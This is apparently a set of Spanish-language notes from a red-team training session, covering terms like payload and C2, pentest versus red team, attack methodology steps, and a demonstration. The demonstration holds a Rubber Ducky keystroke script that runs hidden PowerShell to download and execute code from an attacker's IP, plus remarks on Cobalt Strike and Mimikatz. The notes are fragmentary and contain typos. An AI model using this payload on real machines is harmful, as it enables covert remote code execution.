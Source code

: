kpmg@kpmg.com.mx

Vulnerabilidad: Debilidad o fallo en un sistema que puede ser explotado
Incidencia: Cantidad o recurrencia de una misma vuln
Payload: 
Command and control c2: Mecanismo usado por atacantes para comunicarse y controlar sistemas comprometidos dentro de una red...

**Diferencia entre Pentest y Red Team**
Red Team es similar a un Pentest con la diferencia de que la empresa no debe de detectarte.
Un ejercicio de red team es una simulación avanzada de ciberataque en la que un equipo de seguridad ofensiva....

**Equipos de Security Testing**
**Metodología de Red Team**
1. Inteligencia de amenazas = recopilar información
2. Preparación de ataques = crear vectores de ataque
3. Identificación de vulnerabilidades = Análisis de vulnerabilidades y vialidades de ataque
4. Explotación 
5. Persistencia y conexión con C&C = Garantizar el acceso remoto y conexión segura
6. Reconocimiento interno y elevación de privilegios = 
7. Movimientos laterales
8. ...

**Beneficiios de ejecutar un ejercicio de Red Team**
Identificar vulnerabilidades
Evaluar la eficacia de las herramientas de seguridad
Prueba de la preparación de los equipos de seguridad
Mejora de la respuesta a incidentes

**Demostración**
Software rubberducky???
duckener

delay 750
GUI r == win + r
delay 750
STRING powershell.exe -nop -w hidden -c "IEX ((new-objec net.webclient).downloadstring(<ip de la máquina atacante>))"
ENTER

Herramienta Cobalt strike
Listener es importante antes de cada ataque para escanear todo lo que llega al sistema victima
Beacon dentro del cobalt es: Preguntar a Deepsik
Este payload de la práctica lo que hace es crear un proceso en memoria que es invisible para el usuario 
Mimikratz qué es?

